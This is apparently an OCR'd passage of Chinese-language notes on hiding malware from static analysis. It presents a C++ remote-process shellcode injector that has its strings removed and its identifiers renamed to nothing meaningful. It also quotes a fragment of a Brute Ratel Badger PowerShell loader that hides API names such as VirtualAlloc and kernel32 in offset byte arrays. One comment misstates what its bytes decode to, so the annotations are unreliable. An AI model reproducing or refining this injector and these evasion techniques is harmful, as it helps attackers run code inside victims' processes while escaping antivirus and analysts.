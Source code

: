             return 0;
        }
        ```
        
    - 使用 strings.exe 分析编译后的原始程序:
        
        输出会包含大量字符串，包括：
        
        - `iostream` 相关的错误信息和内部字符串 (如 "invalid argument", "string too long", "bad allocation")。
        - 程序中定义的字符串常量，如 "This was leaked in the strings"。
        - 用于 `cout` 输出的提示信息，如 "Handle obtained for", "Buffer Created" 等。
        - 甚至某些情况下，如果编译器优化不当或代码结构特殊，变量名（如 "shellcode", "leaked"）的某些痕迹也可能以某种形式存在（尽管在标准Release编译中，局部变量名通常不会直接出现在字符串表中，但全局变量名或某些符号信息可能存在）。原文提到 "shellcode 字节数组也被泄露了"，这可能是指其内容（如果未正确混淆）或变量名本身（在调试版本或特定符号表中）。
    - **移除 `iostream` 并替换有意义标识符后的 C++ 代码**:
        
        C++
        
        ```
        #include "windows.h"
        // 不再使用 iostream 和 string
        
        int main(int argc, char* argv[])
        {
            unsigned char awoler[] = { /* ... shellcode bytes ... */ }; // 无意义变量名
            HANDLE awerfu; // 无意义变量名
            HANDLE rwfhbf; // 无意义变量名
            PVOID iauwef;  // 无意义变量名
        
            awerfu = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
            iauwef = VirtualAllocEx(awerfu, NULL, sizeof awoler, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
            WriteProcessMemory(awerfu, iauwef, awoler, sizeof awoler, NULL);
            rwfhbf = CreateRemoteThread(awerfu, NULL, 0, (LPTHREAD_START_ROUTINE)iauwef, NULL, 0, NULL);
            CloseHandle(awerfu);
        
            return 0;
        }
        ```
        
    - **结果**: 移除了所有 `cout` 输出后，相关的提示字符串将不再存在于编译后的文件中。将变量名替换为无意义的名称 (如 `awoler`, `awerfu`)，虽然在编译后的 Release 版本中这些局部变量名本身通常不会直接存储为字符串，但这样做可以防止在调试信息、符号文件或源代码泄露时暴露其用途。核心目标是最小化二进制文件中任何可直接识别的、与程序功能相关的字符串信息。
        
- 示例 2: 解释型语言 (PowerShell) - BRC4 套件中 Badger PowerShell 加载器片段
    
    以下片段展示了 PowerShell 脚本中如何使用无意义的变量名和简单的字节数组运算 (加法) 来混淆字符串（如函数名、模块名）。
    
    PowerShell
    
    ```
    # Set-StrictMode -Version 2 # 脚本通常会包含严格模式设置
    [Byte[]] $Ait1m = @(0x3d, 0x50, 0x51, 0x57, 0x50, 0x4e, 0x5f, 0x50, 0x4f, 0x2f, 0x50, 0x57, 0x50, 0x52, 0x4c, 0x5f, 0x50) # "RandomAssemblyName" - 21
    [Byte[]] $ahv3I = @(0x34, 0x59, 0x38, 0x50, 0x58, 0x5a, 0x5d, 0x64, 0x38, 0x5a, 0x4f, 0x60, 0x57, 0x50) # "InMemoryModule" - 21
    # ... (其他大量类似的字节数组定义) ...
    [Byte[]] $xee2N = @(0x56, 0x50, 0x5d, 0x59, 0x50, 0x57, 0x1e, 0x1d) # "kernel32" - 21
    [Byte[]] $AD0Pi = @(0x41, 0x54, 0x5d, 0x5f, 0x60, 0x4c, 0x57, 0x2c, 0x57, 0x57, 0x5a, 0x4e) # "VirtualAlloc" - 21
    